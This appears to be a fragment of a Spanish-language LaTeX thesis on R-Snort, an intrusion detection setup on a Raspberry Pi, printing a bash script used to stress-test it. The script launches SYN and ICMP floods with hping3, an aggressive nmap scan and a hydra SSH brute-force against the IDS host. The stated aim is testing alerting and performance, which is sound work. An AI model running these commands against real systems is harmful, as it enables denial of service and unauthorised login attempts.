 \documentclass[11pt,a4paper,twoside]{report}
\begin{document}
El siguiente fragmento muestra el contenido del script utilizado:

\begin{lstlisting}[language=bash,caption={Script para generar ataques masivos contra R-Snort},label={lst:ataques-masivos}]
	# PUERTO UNICO POR INSTANCIA
	PUERTO_IPERF="${1:-5201}"
	
	echo "[+] ATAQUE desde terminal con IPERF en puerto $PUERTO_IPERF"
	echo "==============================================="
	
	# 1. TCP SYN Flood
	echo "[1] Iniciando TCP SYN Flood con hping3..."
	sudo hping3 -S --flood -p 80 $R_SNORT_IP &
	
	# 2. ICMP Flood
	echo "[2] Iniciando ICMP Flood..."
	sudo hping3 -1 --flood $R_SNORT_IP &
	
	# 3. Escaneo nmap agresivo
	echo "[3] Lanzando escaneo Nmap agresivo..."
	sudo nmap -sS -sU -T4 -A $R_SNORT_IP --reason --script "default" -p- &
	
	# 4. Tráfico continuo con iperf3 (en puerto variable)
	echo "[4] Ejecutando iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF ..."
	iperf3 -c $R_SNORT_IP -p $PUERTO_IPERF -t 60 -b 100M &
	
	# 5. Ataque de fuerza bruta con hydra (limitado)
	echo "[5] Simulando fuerza bruta con Hydra..."
	hydra -l admin -p admin ssh://$R_SNORT_IP -t 4 -V -f &
	
	echo "==============================================="
	echo "Todos los ataques están en ejecución. Observar las gráficas."
\end{lstlisting}

Este enfoque permitió verificar no solo la capacidad del sistema para generar alertas ante ataques múltiples, sino también analizar el rendimiento de la Raspberry Pi bajo carga, así como la eficacia del almacenamiento de alertas y la visualización en tiempo real mediante Grafana.

\newpage

\subsection{Pruebas}

Para el apartado de pruebas se pretende verificar la estabilidad y eficiencia de la interfaz frontend de R-Snort ante un volumen extremo de alertas generado durante las pruebas de estrés con tráfico malicioso y las demás funcionalidades del ecosistema R-Snort.\newline

\subsubsection{Registro de alertas masivas}
\end{document}
